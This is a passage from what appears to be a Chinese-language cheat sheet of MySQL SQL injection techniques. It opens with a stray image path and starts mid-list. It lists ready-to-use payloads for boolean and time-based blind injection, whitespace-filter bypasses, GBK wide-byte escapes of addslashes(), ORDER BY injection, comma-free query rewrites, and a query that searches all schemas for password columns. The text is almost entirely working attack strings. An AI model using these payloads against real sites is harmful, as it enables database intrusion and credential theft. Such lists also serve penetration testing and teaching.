         - 「有」跟「没有」
        - `id=87 and length(user())>0`
        - `id=87 and length(user())>100`
        - `id=87 and ascii(mid(user(),1,1))>100`
        - `id=87 or ((select user()) regexp binary '^[a-z]')`
    - Time
        - 用在啥结果都看不到时
        - `id=87 and if(length(user())>0, sleep(10), 1)=1`
        - `id=87 and if(length(user())>100, sleep(10), 1)=1`
        - `id=87 and if(ascii(mid(user(),1,1))>100, sleep(10), 1)=1`
- 绕过空白检查
    - `id=-1/**/UNION/**/SELECT/**/1,2,3`
    - `id=-1%09UNION%0DSELECT%0A1,2,3`
    - `id=(-1)UNION(SELECT(1),2,3)`

- 宽字节注入
    - `addslashes()`会让`'`变`\'`
    - 在`GBK`编码中，中文字用两个Bytes表示
        - 其他多字节编码也可
        - 但要低位范围有包含`0x5c`(`\`)
    - 第一个Byte要>128才是中文
    - `%df'` => `%df\'` => `运'` (成功逃逸)

- Order by注入
    - 可以透过`asc`、`desc`简单判断
        - `?sort=1 asc`
        - `?sort=1 desc`
    - 后面不能接UNION
    - 已知字段名 (可以盲注)
        - `?order=IF(1=1, username, password)`
    - 利用报错
        - `?order=IF(1=1,1,(select 1 union select 2))` 正确
        - `?order=IF(1=2,1,(select 1 union select 2))` 错误
        - `?order=IF(1=1,1,(select 1 from information_schema.tables))` 正常
        - `?order=IF(1=2,1,(select 1 from information_schema.tables))` 错误
    - Time Based
        - `?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` 正常
        - `?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` sleep 2秒

- group by with rollup
    - `' or 1=1 group by pwd with rollup limit 1 offset 2#`

- 将字符串转成纯数字
    - 字符串 -> 16进制 -> 10进制
    - `conv(hex(YOUR_DATA), 16, 10)`
    - 还原：`unhex(conv(DEC_DATA,10,16))`
    - 需注意不要Overflow

- 不使用逗号
    - `LIMIT N, M` => `LIMIT M OFFSET N`
    - `mid(user(), 1, 1)` => `mid(user() from 1 for 1)`
    - `UNION SELECT 1,2,3` => `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c)`

- 快速查找带关键字的表
    - `select table_schema,table_name,column_name from information_schema.columns where table_schema !=0x696E666F726D6174696F6E5F736368656D61 and table_schema !=0x6D7973716C and table_schema !=0x706572666F726D616E63655F736368656D61 and (column_name like '%pass%' or column_name like '%pwd%');
    `
